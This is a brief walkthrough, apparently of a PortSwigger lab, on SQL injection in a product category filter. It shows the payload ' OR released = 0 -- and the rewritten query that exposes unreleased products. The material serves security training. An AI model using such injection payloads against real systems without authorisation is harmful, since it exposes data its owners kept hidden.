


# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Difficulty:** Apprentice

**Link:** https://portswigger.net/web-security/sql-injection/lab-retrieval-of-hidden-data

## Objective : exploit this vulnerability to retrieve hidden data.

## Analysis
**Context:** Product Category Filter

**Sink:**  The category filter is used in the WHERE clause of a SQL query to filter the products displayed on the page.

**Payload:** ' OR released = 0 --

**Result:** 
SELECT * FROM products WHERE category = '' OR released = 0 -- AND released = 1
'--' was used to comment out the rest of the query.

```markdown


```
